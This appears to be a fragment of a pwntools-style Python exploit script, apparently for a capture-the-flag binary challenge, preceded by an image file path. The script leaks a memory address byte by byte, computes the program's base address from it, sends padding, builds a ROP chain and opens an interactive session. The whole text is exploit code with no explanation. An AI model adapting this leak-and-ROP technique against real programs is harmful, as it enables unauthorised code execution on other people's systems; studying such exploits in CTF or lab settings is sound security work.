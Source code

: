 ```py
for i in range(11):
	leak_addr = b''
	for i in range(8):
		sn(b'a')
		leak_addr += rn(1)
	leak_addr = uu64(leak_addr)
	lg("leak_addr")
lg("leak_addr")
elf_base = leak_addr - 0x10430

sn(b'\x00')
for i in range(0x5f):
	sn(b'a')
sn(b'\x00')

debugPID()
sn(b'a')
ROP(elf_base)

irt()
```


